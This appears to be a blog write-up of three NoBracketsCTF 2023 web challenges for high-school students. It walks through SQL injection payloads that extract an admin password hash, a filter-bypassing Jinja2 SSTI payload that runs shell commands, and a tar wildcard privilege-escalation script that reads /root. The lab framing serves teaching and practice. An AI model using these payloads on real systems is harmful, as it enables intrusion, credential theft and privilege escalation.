






---
authors:
  - Drahoxx
title: "NoBracketsCTF 2023 -- Born To Be"
description: "Three Born To Be challenges from NoBracketsCTF 2023, from SQL injection to SSTI and wildcard-based privilege escalation through tar."
publicationDate: 2024-08-25 00:00:00+0000
cover: ../../../assets/blog/born-to-be-web/born-to-be.jpg
coverAlt: "NoBracketsCTF 2023 -- Born To Be"
categories:
  - Web
tags:
  - NoBrackets
  - CTF
  - WriteUp
  - Web
  - System
---

## Context

NoBracketsCTF is a CTF for high-school students, and this challenge was part of the final.

The challenge is open-source: https://github.com/nobrackets-ctf/NoBracketsCTF-2023/tree/main/finale/Web/BornToBeAdmin/infra

Just run `./run.sh` and visit `http://localhost:5000/` to access the challenge.

## Born To Be Admin 1/3

**Description:**
```
Do you like red-pandas? I love 'em!

Your goal is to become administrator of the website.

Author: [Drahoxx](https://twitter.com/50mgDrahoxx)
```

The first vulnerability is an SQL injection in the search bar, which means we can leak data through it.
We will try to uncover the admin's credentials.






### Get table and column names

#### Table name

We can use Payload All the Things to help us.
Under `Sqlite` > `Integer/String based - Extract table name`, we can find the following [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#integerstring-based---extract-table-name):

`SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'`

We adapt it into:
`aaaaa' UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -`

We get: `users,data`

#### Column names

Since we know there is a `users` table, we can try to leak the [column names](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#integerstring-based---extract-column-name):

`aaaaaa' UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -`

We get: `CREATE TABLE users ( id INTEGER PRIMARY KEY AUTOINCREMENT, username VARCHAR(100) NOT NULL, password VARCHAR(100) NOT NULL, is_admin BOOLEAN NOT NULL DEFAULT 0 )`

So the table looks like this: | id (int) | username (str) | password (str) | is_admin (bool) |

We can start uncovering the admin's credentials.

### Get admin's username

`' UNION SELECT username FROM users WHERE is_admin=true-- -`

We get: `redpanda-master`

### Get user's password

`' UNION SELECT password FROM users WHERE is_admin=true-- -`




We get: `61983636aae8819f9a94b39bd0e6219d2212f0bcc37bb11032b559d6df26b07f`
It is present in rockyou and can be cracked using https://crackstation.net/
The password is `redpandas4ever`

### Login to the admin's account

We use the login form to log in:
`redpanda-master`
`redpandas4ever`




> `NBCTF{Y0u're_Th3_TrU3_redpanda-master_You've_Been_B0rn_T0_B3_An_Adm1n}`

## Born To Be User 2/3

**Description:**
```
You became admin of the website. Now is time to become user again!

RCE and read content of `flag.txt`.

Author: [Drahoxx](https://twitter.com/50mgDrahoxx)
```

In this part, the vulnerability is an SSTI in the admin panel. The goal is to get a shell, or at least RCE.

### Discovering the SSTI

When entering `{{7*7}}` in the text box, we get the following result: `Hello, redpanda-master. You searched for the username 49, here is your results :`

The 49 confirms that our SSTI is working. Let's exploit it.




### Filters

There are two small filters on this SSTI: `'`, `.`, and `_` are banned.
We confirm it by entering `.`: `Error : . _ and ' are filtered to avoid interfering with sql.`

### Exploit

We can use Payload All the Things again as a starting point for our payload: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread

We will use Podalirius' payload because it is the shortest:
`{{ lipsum.__globals__["os"].popen('id').read() }}`

The payload contains `.`, `'`, and `_`, which we need to remove:

1. Removing '
	We can use double quotes (") instead of single quotes (')
2. Removing .
	We can use `|attr()` instead of `.` in Jinja2
3. Removing _
	We can encode `_` as `\x5f`
4. Removing [ because it does not work with attr
	We can use the `get` function instead

Final payload: `{{lipsum|attr("\x5f\x5fglobals\x5f\x5f")|attr("get")("os")|attr("popen")("cat flag\x2etxt")|attr("read")()}}`



> `NBCTF{Fr0m_Adm1n_0n_W3bSite_T0_Us3r_0n_S3rver_SSTIs_are_FUN!}`

## Born To Be Root 3/3

**Description:**
```
Wp RCE! Now is time to become root.

Flag is located in `/root`.

Author: [Drahoxx](https://twitter.com/50mgDrahoxx)
```

https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

```sh
echo -e \"#!/bin/bash\\ncat /root/* > result\" > shell\x2esh
echo \"\" > \"--checkpoint-action=exec=sh shell\x2esh\"
echo \"\" > --checkpoint=1
## Wait one minute
ls -la
## If there is result, you can cat it.
cat result
```
We get `NBCTF{You&#39;ve_Really_Becomed_Th3_R3d_Panda_And_Red_Team_Master!}`, which translates to:

> `NBCTF{You've_Really_Becomed_Th3_R3d_Panda_And_Red_Team_Master!}`
